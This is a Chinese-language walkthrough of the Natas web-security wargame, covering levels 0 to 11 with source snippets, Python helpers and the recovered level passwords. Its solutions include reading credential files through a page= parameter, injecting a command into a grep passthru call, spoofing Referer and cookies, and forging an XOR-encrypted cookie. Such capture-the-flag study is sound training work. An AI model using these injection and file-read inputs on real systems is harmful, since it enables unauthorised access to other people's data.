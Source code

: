 # Natas

### Level0

查看页面源码，可以看到
```html
<!--The password for natas1 is gtVrDuiDfck831PqWsLEZy5gyDz1clto -->
```

### Level1

同Level0,可从菜单内打开开发者工具查看源码
```html
<!--The password for natas2 is ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi -->
```

### Level2
源码内原来放密码的地方变成了一张图
```html
<img src="files/pixel.png">
```
图片本身没有什么特殊的，但是访问/files可以看到一个users.txt，里面存着natas3的密码
```html
natas3:sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14
```

### Level3
这次信息变成了
```html
<!-- No more information leaks!! Not even Google will find it this time... -->
```
注意后一句话，查看/robots.txt可以看到一个被禁止的目录
```
User-agent: *
Disallow: /s3cr3t/
```
进去只有一个users.txt，里面存着natas4的密码
```text
natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ
```

### Level4
提示信息
```html
Access disallowed. You are visiting from "" while authorized users should come only from "http://natas5.natas.labs.overthewire.org/"
```
修改Header `Referer: http://natas5.natas.labs.overthewire.org/` 之后访问，得到natas5的密码
```html
Access granted. The password for natas5 is iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq
```

### Level5
提示信息
```html
Access disallowed. You are not logged in
```
查看Cookie可以看到 `loggedin=0` ，修改成1后访问，得到natas6的密码
```html
Access granted. The password for natas6 is aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1
```

### Level6
PHP源码
```php
<?
include "includes/secret.inc";
    if(array_key_exists("submit", $_POST)) {
        if($secret == $_POST['secret']) {
        print "Access granted. The password for natas7 is <censored>";
    } else {
        print "Wrong secret";
    }
    }
?>
```
于是访问 `/includes/secret.inc` ，得到`$secret = "FOEIUWGHFEEUHOFUOIU";`

提交后得到natas7的密码
```html
Access granted. The password for natas7 is 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9
```

### Level7
提示信息
```html
<!-- hint: password for webuser natas8 is in /etc/natas_webpass/natas8 -->
```
注意到主页的uri是 `/index.php?page=home`

尝试访问 `/index.php?page=/etc/natas_webpass/natas8` ，得到natas8的密码
```text
DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe
```

### Level8
PHP源码
```php
<?
$encodedSecret = "3d3d516343746d4d6d6c315669563362";
function encodeSecret($secret) {
    return bin2hex(strrev(base64_encode($secret)));
}
if(array_key_exists("submit", $_POST)) {
    if(encodeSecret($_POST['secret']) == $encodedSecret) {
    print "Access granted. The password for natas9 is <censored>";
    } else {
    print "Wrong secret";
    }
}
?>
```
于是运行以下python代码算出原始secret
```python
import base64
secret_encoded = "3d3d516343746d4d6d6c315669563362"
secret_hex = []
for i in range(len(secret_encoded) // 2):
    secret_hex.append(int(
        secret_encoded[i*2: (i+1)*2], 16
    ))

secret_hex.reverse()
secret_base64 = bytes(secret_hex)
secret = base64.standard_b64decode(secret_base64)
```
得到 `oubWYf2kBq` ，提交后得到natas9的密码
```html
Access granted. The password for natas9 is W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl
```

### Level9
PHP源码
```php
<?
$key = "";
if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}
if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
?>
```
参考Level7，猜测可以从 `/etc/natas_webpass/natas10` 得到密码

于是提交 `. /etc/natas_webpass/natas10;` ，得到natas10的密码
```text
nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu
```

### Level10
PHP源码
```php
<?
$key = "";
if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}
if($key != "") {
    if(preg_match('/[;|&]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i $key dictionary.txt");
    }
}
?>
```
可见过滤了 `;|&` ，于是去掉Level9末尾的 `;` 提交`. /etc/natas_webpass/natas11`

只查看 `/etc/natas_webpass/natas11` 的部分，得到natas11的密码
```text
U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK
```

### Level11
PHP源码，只贴核心部分
```php
<?
$defaultdata = array( "showpassword"=>"no", "bgcolor"=>"#ffffff");
function xor_encrypt($in) {
    $key = '<censored>';
    $text = $in;
    $outText = '';
    // Iterate through each character
    for($i=0;$i<strlen($text);$i++) {
    $outText .= $text[$i] ^ $key[$i % strlen($key)];
    }
    return $outText;
}
function saveData($d) {
    setcookie("data", base64_encode(xor_encrypt(json_encode($d))));
}

if($data["showpassword"] == "yes") {
    print "The password for natas12 is <censored><br>";
}
?>
```
根据key做了一个简单的xor加密

加密后的数据为 `ClVLIh4ASCsCBE8lAxMacFMZV2hdVVotEhhUJQNVAmhSEV4sFxFeaAw=`

加密前的数据为 `{"showpassword":"no","bgcolor":"#ffffff"}`

于是运行以下python代码尝试得到key
```python
import base64
data = b'{"showpassword":"no","bgcolor":"#ffffff"}'
data_xor = base64.b64decode("ClVLIh4ASCsCBE8lAxMacFMZV2hdVVotEhhUJQNVAmhSEV4sFxFeaAw=")

xor_enc = lambda x, y: x ^ y
key = bytes(map(xor_enc, data, data_xor))
```
算出 `qw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jq` 得到key `qw8J`

将data修改为 `{"showpassword":"yes","bgcolor":"#ffffff"}` 

用算出的key加密得到新的cookie `ClVLIh4ASCsCBE8lAxMacFMOXTlTWxooFhRXJh4FGnBTVF4sFxFeLFMK`

用新的cookie访问得到natas12的密码
```html
The password for natas12 is EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3
```
